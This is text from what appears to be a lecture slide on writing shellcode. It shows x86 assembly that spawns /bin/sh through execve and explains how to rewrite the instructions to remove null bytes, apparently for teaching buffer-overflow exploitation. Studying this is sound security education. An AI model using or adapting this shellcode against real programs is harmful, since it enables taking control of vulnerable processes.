

# Removing Null Characters
main:
  jmp  main+0x2f
  popl %ebx
  movb $0x0, 0x7(%ebx)
  movl %ebx, 0x8(%ebx)
  movl $0x0, 0xc(%ebx)
  movl $0x0, %edx
  leal 0x8(%ebx), %ecx
  movl $0xb, %eax
  int  $0x80
  movl $0x0, %ebx
  movl $0x1, %eax
  int  $0x80
  call main+0x5
  .string "/bin/sh"
.globl main
  .type   main, @function
xorl %eax, %eax
movb %al, 0x7(%ebx)

movl %eax, 0xc(%ebx)
movl %eax, %edx